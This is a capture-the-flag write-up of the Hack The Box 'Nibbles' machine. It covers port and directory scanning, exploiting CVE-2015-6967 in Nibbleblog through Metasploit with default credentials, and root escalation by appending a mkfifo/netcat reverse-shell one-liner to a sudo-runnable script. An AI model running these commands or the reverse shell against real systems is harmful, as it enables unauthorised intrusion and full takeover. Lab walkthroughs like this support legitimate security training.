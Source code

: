 # Nibbles | HTB
### Difficulty Level: Easy
-------------------------------

Let's start with nmap scan to find open ports and services within the system:

```bash
nmap -p- -T4 -A 10.10.10.75 -oN nibbles.nmap
```

-p- scans all ports instead the 1000 common ports scan defaultivy way.

-T4  - increase the spped of the scan.

-A  - aggressive scan to gather more information about the system.

-oN - saves the output to a file.


Results:

```bash
Nmap scan report for 10.10.10.75
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/18%OT=22%CT=1%CU=33777%PV=Y%DS=2%DC=T%G=Y%TM=65F8
OS:88D9%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10D%TI=Z%II=I%TS=8)SEQ(S
OS:P=100%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)SEQ(SP=101%GCD=1%ISR=10C%TI=Z%II
OS:=I%TS=8)SEQ(SP=102%GCD=1%ISR=10C%TI=Z%TS=8)OPS(O1=M53CST11NW7%O2=M53CST1
OS:1NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=71
OS:20%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M5
OS:3CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4
OS:(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%
OS:F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%
OS:T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%R
OS:ID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   230.60 ms 10.10.14.1
2   230.77 ms 10.10.10.75

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 515.57 seconds
```

I'll try to find any intersting directory within the system with:

```bash
└─# gobuster dir -u http://10.10.10.75 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

-u - the traget url.

-w - the wordlist to scan the system with.

While scanning, I navigated to the address within the browser. I decided to view the source code.


![image](https://cdn-images-1.medium.com/max/1000/1*byJhHlMqipaqplu6OGRR3w.png)


It sends us to /nibbleblog/.


![image](https://cdn-images-1.medium.com/max/1000/1*bXNAX8k7NVW5eWed7Iu8nw.png)


The previous gobuster scan didn't find any directory, but after we found the blog, let's scan another time but with the /nibbleblog/.

Results:

![image](https://cdn-images-1.medium.com/max/1000/1*8W4FF3LwC2N5AqNdcplJKA.png)


After traveling betweem the directories within /admin, I found a file that tells me there is admin user. 
In addition, there is README file that includes the version of the nibbleblog service.


![image](https://cdn-images-1.medium.com/max/1000/1*Sw-slPkN3-mQNnwhOMbfnw.png)


Let's check if this service at that version is vulnerable.

```bash
searchsploit nibbleblog   
----------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                               |  Path
----------------------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                                       | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                        | php/remote/38489.rb
----------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Use metasploit to try the Arbitrary File Upload, but after I use "options" to understand what info I need to provide 
to run the exploit, it demends username and password. At that moment, I don't have any credentials.

After some research I found a github that includes the exploit with an example how to use it:

https://github.com/dix0nym/CVE-2015-6967


![image](https://cdn-images-1.medium.com/max/1000/1*3AEzPOCvVD08Rq76Zpms4Q.png)


I decided to provide the path, username and password (it can be default credentials). and then I got meterpreter shell!

On metasploit:

```bash
set lhost <your-ip>

set rhost <target-machine>

set targeturi /nibbleblog/

set username admin 

set password nibbles

run

```


![image](https://cdn-images-1.medium.com/max/1000/1*B4Bn9ppeAtkNYmhTibOJrA.png)


Stabilized the shell with:

```bash

python3 -c 'import pty; pty.spawn("/bin/bash")'

```

![image](https://cdn-images-1.medium.com/max/1000/1*QDLymSfm1yv52sq-R4ZXNg.png)

There is zip file maybe there is something:



```bash
unzip personal.zip
```

and there is a script "monitor.sh". Let's check if can we run files as root with:

```bash
sudo -l
```

![image](https://cdn-images-1.medium.com/max/1000/1*2NeIv8555jTiQxE-C9Qk6w.png)


Because we know that this file can run as root so let's upload a reverse shell payload to the file:

```bash
echo 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <tun-0> 2222 >/tmp/f' >> monitor.sh    
```

Set netcat listener on your machine:

```bash
nc -lnvp 2222
```

then run monitor.sh :

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

and there is reverse shell as root:


![image](https://cdn-images-1.medium.com/max/1000/1*tYtmcGedyOT67-_N1pG50w.png)


grab /root/root.txt

and this is it for now.


***Written by Alon Presman, Penetration Tester and Ethical Hacker.***
























































































